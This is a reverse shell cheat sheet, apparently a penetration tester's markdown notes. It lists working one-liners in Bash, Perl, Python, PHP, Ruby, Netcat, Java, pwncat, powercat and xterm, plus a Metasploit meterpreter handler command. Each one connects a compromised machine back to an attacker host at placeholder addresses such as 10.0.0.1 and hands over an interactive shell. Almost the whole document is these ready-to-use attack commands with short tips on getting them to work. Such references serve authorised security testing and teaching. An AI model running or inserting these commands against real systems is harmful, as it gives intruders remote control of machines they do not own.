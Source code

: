 
## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]
- [[#pwncat]]
- [[#msfconsole]]
- [[#powercat]]


### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### Pwncat

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```

[[Pwncat]]

### msfconsole
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 9009; exploit"
```

### Powercat
**Listener + client**

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000

```

[[Powercat]]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip